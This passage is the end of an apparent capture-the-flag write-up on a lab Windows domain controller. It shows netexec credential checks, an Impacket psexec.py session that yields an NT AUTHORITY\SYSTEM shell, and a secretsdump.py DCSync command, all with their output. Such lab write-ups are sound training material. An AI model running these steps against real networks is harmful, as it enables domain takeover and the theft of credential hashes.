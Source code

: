 
Confirmation that the password was successfully changed whereby compromising the domain


```bash
❯ nxc smb 10.10.197.194 -u BRADLEY_ORTIZ -p Password123
SMB         10.10.197.194   445    LABYRINTH        [*] Windows 10 / Server 2019 Build 17763 x64 (name:LABYRINTH) (domain:thm.local) (signing:True) (SMBv1:False) 
SMB         10.10.197.194   445    LABYRINTH        [+] thm.local\BRADLEY_ORTIZ:Password123 (Pwn3d!)
```

Logged-in as shown below and we have administrative access to the domain


```bash
❯ rlwrap psexec.py BRADLEY_ORTIZ@10.10.197.194                                                 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
Password:***********                         
Password:                                    
[*] Requesting shares on 10.10.197.194.....
[*] Found writable share ADMIN$
[*] Uploading file CKuXacJI.exe    
[*] Opening SVCManager on 10.10.197.194.....
[*] Creating service PKHP on 10.10.197.194..... 
[*] Starting service PKHP.....
[!] Press help for extra shell commands     
Microsoft Windows [Version 10.0.17763.4377]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd \Users\Admini*
C:\Users\Administrator> whoami && hostname && ipconfig
nt authority\system
labyrinth

Windows IP Configuration


Ethernet adapter Ethernet 3:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::2c68:e113:644b:d6cb%4
   IPv4 Address. . . . . . . . . . . : 10.10.197.194
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1

Tunnel adapter Teredo Tunneling Pseudo-Interface:

   Connection-specific DNS Suffix  . : 
   IPv6 Address. . . . . . . . . . . : 2001:0:14be:4c8:284a:2a2:f5f5:3a3d
   Link-local IPv6 Address . . . . . : fe80::284a:2a2:f5f5:3a3d%7
   Default Gateway . . . . . . . . . : ::
```


To maintain persistence, performed a DNS replication(DCSync) att&ck


```bash
❯ secretsdump.py thm.local/BRADLEY_ORTIZ:Password123@10.10.197.194
```


![](https://i.imgur.com/Ij6MZZd.png)


GG 🙂🤪

<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>